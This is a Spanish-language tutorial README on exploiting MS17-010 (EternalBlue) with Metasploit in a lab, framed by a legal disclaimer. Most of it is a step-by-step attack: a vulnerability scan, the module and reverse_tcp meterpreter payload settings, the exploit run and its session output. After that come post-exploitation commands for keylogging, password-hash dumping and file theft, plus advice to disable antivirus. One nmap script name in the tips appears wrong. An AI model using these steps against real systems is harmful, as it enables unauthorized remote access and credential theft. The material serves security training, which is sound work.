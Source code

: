 # 🛡️ **Guía para Explotar MS17-010 con Metasploit**
_______________________________________
## ⚠️ Aviso Legal / Disclaimer
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
_______________________________________
Esta guía explica paso a paso cómo explotar la vulnerabilidad MS17-010 (EternalBlue) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
_______________________________________

# 🛡️ **¿Qué es MS17-010 (EternalBlue)?**

- Vulnerabilidad crítica en el protocolo SMBv1 de Windows.
-	Permite ejecución remota de código sin autenticación.
-	Afecta Windows XP, 7, 8, Server 2003, 2008, 2012 (si no está parchado).
-	Fue utilizada por el ransomware WannaCry y NotPetya.
_______________________________________
## 🧰 Requisitos del entorno de pruebas
-	💻 [Kali Linux (máquina atacante)](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina vulnerable: Windows 7 SP1 o Windows Server 2008 sin el parche MS17-010.](https://drive.google.com/file/d/11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_/view)
-	🌐 Ambas máquinas deben estar en la misma red local o virtual interna.
________________________________________
## 🧪 Paso a paso para explotar MS17-010 con Metasploit
________________________________________
**🔹 1. Verifica conectividad y vulnerabilidad**
Desde Kali:
<pre> ping [IP_de_la_víctima] </pre>
Opcional (para verificar si es vulnerable):
<pre> nmap -p 445 --script smb-vuln-ms17-010 [IP_víctima] </pre>
Si dice VULNERABLE, puedes continuar.
________________________________________
**🔹 2. Iniciar Metasploit**
<pre> msfconsole </pre>

**🔹 3. Buscar el exploit**
<pre>search eternalblue</pre>
Deberías ver:
<pre> exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 4. Seleccionar el exploit**
<pre> use exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 5. Ver las opciones requeridas**
<pre> show options </pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar los parámetros**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/x64/meterpreter/reverse_tcp </pre>

También puedes usar  ```bash windows/meterpreter/reverse_tcp  ``` si la víctima es de 32 bits.
________________________________________
**🔹 7. Verificar configuración**
<pre> show options </pre>
________________________________________
**🔹 8. Ejecutar el exploit**
<pre> exploit </pre>
________________________________________
## ✅ **Resultado esperado**
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage ...
[*] Meterpreter session 1 opened
```
¡Ahora tienes acceso remoto a la máquina!
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
**Comandos útiles:**
- **sysinfo:**	Información del sistema
- **getuid:**	Usuario actual
- **shell:**	Abre CMD de la víctima
- **screenshot:**	Captura pantalla
- **download archivo:**	Descargar archivos
- **keyscan_start:**	Inicia keylogger
- **hashdump:**	Extraer hashes de contraseñas
________________________________________
## 🔒 Precauciones
-	No usar este exploit en redes reales o con máquinas no autorizadas.
-	EternalBlue afecta SMBv1, un protocolo antiguo y obsoleto.
________________________________________
## ❌ **Consejos adicionales**

- Para verificar si el Windows 7 es vulnerable: ```bash nmap -p 445 --script smb-vuln-ms08-010 [IP_víctima] ```
- Si el Exploit dice "No session created"	Verifica que la víctima sea vulnerable (sin parche KB4012212 o similar)
- LHOST mal configurado	Usa la IP correcta de tu Kali, no 127.0.0.1 ni una IP de otra red
- Antivirus bloquea el payload	Desactívalo (solo en laboratorio)
- Máquina víctima no usa SMBv1	Actívalo o usa una VM XP/7 sin actualizar
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS17-010](https://www.exploit-db.com/exploits/42315)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/)
-	[Hack The Box](https://www.hackthebox.com/machines/blue)
- [TryHackMe](https://tryhackme.com/room/blue)
